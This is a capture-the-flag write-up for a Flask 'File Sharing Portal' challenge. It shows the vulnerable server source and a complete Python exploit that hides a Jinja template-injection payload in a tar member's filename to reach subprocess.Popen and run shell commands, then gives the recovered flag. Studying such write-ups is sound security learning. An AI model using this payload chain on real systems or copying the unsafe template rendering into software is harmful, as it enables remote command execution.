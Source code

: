 +++
title = 'File Sharing Portal'
tags = [
  "Web",
  "Python",
  "Template Injection"
]
date = 2024-08-06T11:27:07+02:00
draft = true
+++

# File Sharing Portal

**Description**: Welcome to the file sharing portal! We only support tar files!

**Authors**: NoobMaster + NoobHacker

**Points**: 478

**Solve**: 119

## Introduction

The ctf has a very simple structure: we have a form in which we are asked to insert a [tar](https://en.wikipedia.org/wiki/Tar_(computing)) file; once the tar file has been inserted, it is unzipped and we are shown the `name` of files it contains; by clicking on the different files, we can read their contents.

## Source

**The source has comments added later to allow a better understanding of the code in the writeups**

```python
# filename: server.py

#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    # This function mainly deals with loading the tar file into the server's file system.
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar': # Check that the file passed is actually a tar file
            return render_template_string("<p> We only support tar files as of right now!</p>") # Otherwise, it renders an error message
        name = sha256(os.urandom(16)).digest().hex() # Creates a random name that it will use to name our tar and the folder in the server's file system
        os.makedirs(f"./uploads/{name}", exist_ok=True) # Create the directory
        file.save(f"./uploads/{name}/{name}.tar") # Save the tar file
        try:
            # Extract the tar file
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    # This function displays the files contained in the .tar file
    if not all([i in "abcdef1234567890" for i in name]): # Check that the file name is in hexadecimal, to avoid any kind of malicious input 
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}") # List all files in the previously created folder 
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>' # Show via templates all file names
       # except:
    return render_template_string(out) # Render the template with the render_template_string function

@app.route('/read/<name>/<file>')
def read(name,file):
    # The function shows the contents of the single file
    if (not all([i in "abcdef1234567890" for i in name])): # Check that the file name is in hexadecimal, to avoid any kind of malicious input 
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):  # Other controls to avoid path er
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}') # Open the file
    data = f.read()
    f.close()
    return data # Return the content of file

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)


```

We can therefore see that there are several parameter checks, and at first one might think that the code is `100%` safe.

## Solution

The first thing that came to mind was to create a [symbolic link](https://www.futurelearn.com/info/courses/linux-for-bioinformatics/0/steps/201767) to access the flag, and indeed this works (try with server.py), the problem is that the filename of the flag is unknown and this does not allow us to create a valid symbolic link.

Once we realised this, we did a thorough analysis of the code and came to the conclusion that the only thing that was not being checked was the name of the unpacked tar file allowing us to insert anything. By combining this with the '`render_template_string`' function (a vulnerable function of flask), it is possible to perform a [template injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection).

```python
# filename: exploit.py

import requests
import os
import tarfile
from bs4 import BeautifulSoup

url = 'http://redacted.challs.n00bzunit3d.xyz:8080/'


def create_tar(tar_name, file):
    with tarfile.open(tar_name, 'w') as tar:
        tar.add(file, arcname=os.path.basename(file))
    print(f'Tar file created: {tar_name}')


def create_payload(payload):
    with open(payload, 'w') as f:
        f.write('Remember to byte the cookies')

    create_tar('exploit.tar', payload)
    print(f'Payload created: {payload}')


def get_url_view(text):
    soup = BeautifulSoup(text, 'html5lib')
    return [a['href'] for a in soup.find_all('a', href=True)][0]


def leak_subprocess_index():
    payload = "{{int.__class__.__base__.__subclasses__()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)
    text = r.text[r.text.index('[')+1:]

    list_classes = text.split(',')

    for i, c in enumerate(list_classes):
        if 'subprocess.Popen' in c:
            print(f'Index subprocess.Popen: {i}')
            return str(i)


def get_flag(index):
    payload = "{{int.__class__.__base__.__subclasses__()[" + \
        index + "]('cat *', shell=True, stdout=-1).communicate()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)

    flag = r.text[r.text.index('n00bz{'):r.text.index('}')+1]
    print(f'Flag: {flag}')


def main():
    subprocess_index = leak_subprocess_index()
    get_flag(subprocess_index)


if __name__ == '__main__':
    main()


```

```stdout
$ flag: n00bz{n3v3r_7rus71ng_t4r_4g41n!_b3506983087e}
```

<p align='right'>Author: akiidjk </p>